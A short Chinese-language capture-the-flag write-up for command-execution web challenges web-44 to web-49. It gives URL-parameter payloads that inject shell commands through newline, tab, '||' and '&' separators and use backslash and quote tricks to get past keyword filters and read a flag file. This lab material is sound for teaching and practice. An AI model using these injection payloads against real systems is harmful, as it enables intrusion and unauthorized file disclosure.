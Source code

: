 ### web-44

这题跟上题类似，但过滤了flag，因此我们构造payload

```
?c=tac f\lag%0a
```

------

### web-45

多过滤了一个空格

```
paylo?c=tac%09fl*%26
```

------

### web-46

该题过滤了空格和0-9，$,*,因此这题就不能使用url编码了，但我们可以使用||绕过

```
payload：?c=tac<fl\ag.php||
```

------

### web-47

这道题过滤了更多的文件读取命令，但还是没有过滤tac，因此

```
payload：?c=tac<fl\ag.php||
```

------

### web-48

额，这题依旧没过滤tac

```
payload：?c=tac<fl\ag.php||
```

------

### web-49

嗯，依旧没过滤

页面进行get请求时都会进行url解码再传参的

```
payload1:c=nl%09fla\g.php||
payload2:c=nl%09fla\g.php%0a
payload3:c=nl%09fla''g.php%0a
payload4:c=nl%09fla""g.php%0a
payload5:c=vi%09fla\g.php%0a
payload6:c=tac%09fla\g.php%0a
payload7:c=uniq%09fla\g.php%0a
payload8:c=nl<fla''g.php||
payload9:c=nl%09fla\g.php%26
```
